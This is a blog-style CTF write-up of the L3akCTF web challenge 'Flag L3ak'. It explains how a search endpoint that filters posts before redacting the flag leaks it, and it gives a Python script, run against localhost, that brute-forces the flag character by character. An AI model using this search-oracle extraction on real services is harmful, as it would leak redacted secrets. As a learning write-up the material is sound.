```yaml
---
title: L3akCTF - Flag L3ak
date: 2025-07-12
categories:
  - CTF
tags:
  - CTF
  - web
---
```


For this CTF, I tried to venture outside of my meta--I did solve some crypto challenges, but I also ended up completing my first rev challenge and also solved this web challenge. I found this the most interesting, so here's my writeup of how I solved it.

## Overview

In this challenge, we're sent to a blog-like webpage (not dissimilar to this website) that contains different posts. One of the posts contains the flag.

```js
const posts = [
    {
        id: 1,
        title: "Welcome to our blog!",
        content: "This is our first post. Welcome everyone!",
        author: "admin",
        date: "2025-01-15"
    },
    {
        id: 2,
        title: "Tech Tips",
        content: "Here are some useful technology tips for beginners. Always keep your software updated!",
        author: "Some guy out there",
        date: "2025-01-20"
    },
    {
        id: 3,
        title: "Not the flag?",
        content: `Well luckily the content of the flag is hidden so here it is: ${FLAG}`,
        author: "admin",
        date: "2025-05-13"
    },
    ...
];
```

However, any instance of the flag is replaced with `*`.

![hidden flag](/assets/flag-l3ak/l3ak-blog.png)

As a result, we want to figure out a way to bypass the censored flag.

## Search Requests

If we look carefully at the search request code, we can see that matching posts are first filtered, and then the flag is replaced with the asteriks.

```js
app.post('/api/search', (req, res) => {
    const { query } = req.body;
    
    if (!query || typeof query !== 'string' || query.length !== 3) {
        return res.status(400).json({ 
            error: 'Query must be 3 characters.',
        });
    }

    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));

    res.json({
        results: matchingPosts,
        count: matchingPosts.length,
        query: query
    });
});
```

As a result, even if we search for something that is censored, it will still show up hidden behind the censors. For example, searching for the first three characters of the flag in this CTF competition (i.e. "L3A", where the flag tag is "L3AK") gives us two blog posts, one of which is censored.

![search for L3A](/assets/flag-l3ak/l3ak-search.png)

Hence, we can bash through all possible characters, check if the post with the flag shows up in the found posts, and build the flag accordingly. The annoying thing is that the query must be 3 characters, but it isn't the end of the world.

## Scripting

The solution is rather straightforward.

```python
import requests
import string

URL = "http://localhost:3000/api/search"
LENGTH = 17
flag = "L3AK{"

def search_query(query):
    try:
        response = requests.post(URL, json={"query": query})
        if response.status_code == 200:
            return response.json()
        else:
            print(f"Server returned status {response.status_code}: {response.text}")
    except Exception as e:
        print(f"Request failed: {e}")
    return None


def check_in_flag_post(substring):
    result = search_query(substring)
    if result and result.get("results"):
        for post in result["results"]:
            if post.get("title") == "Not the flag?":
                return True
    return False


print("--- EXTRACTING FLAG ---")
while len(flag) < LENGTH:
    print(f"\nCurrent flag: {flag} (length: {len(flag)} of {LENGTH})")

    test = flag[-2:]
    print(f"Testing {test} + ?")

    for char in string.printable:
        test_str = test + char
        if check_in_flag_post(test_str):
            print(f"Found valid char: {char}")
            flag += char
            break

print("\n--- FINAL RESULT ---")
print(f"Extracted flag: {flag}")
```

I'm using the library `requests` to send requests to the server, and `string` because I don't want to type out all of the possible characters.

`search_query` will send a POST request to the `/api/search` endpoint of the website and `check_in_flag_post` will check if the blog post "Not the flag?" shows up in the results. Then, since we know the flag starts with "L3AK{", we can constantly send the last 2 characters of the flag and some random character, which is what this block of code is for.

```python
    for char in string.printable:
        test_str = test + char
        if check_in_flag_post(test_str):
            print(f"Found valid char: {char}")
            flag += char
            break
```

Running the script, we get the following result.

```
--- EXTRACTING FLAG ---

Current flag: L3AK{ (length: 5 of 17)
Testing K{ + ?
Found valid char: t

Current flag: L3AK{t (length: 6 of 17)
Testing {t + ?
Found valid char: 3

...

Current flag: L3AK{t3mp_flag!! (length: 16 of 17)
Testing !! + ?
Found valid char: }

--- FINAL RESULT ---
Extracted flag: L3AK{t3mp_flag!!}
```

***

[Download flag-l3ak](/assets/flag-l3ak/flag-l3ak.tar.gz)

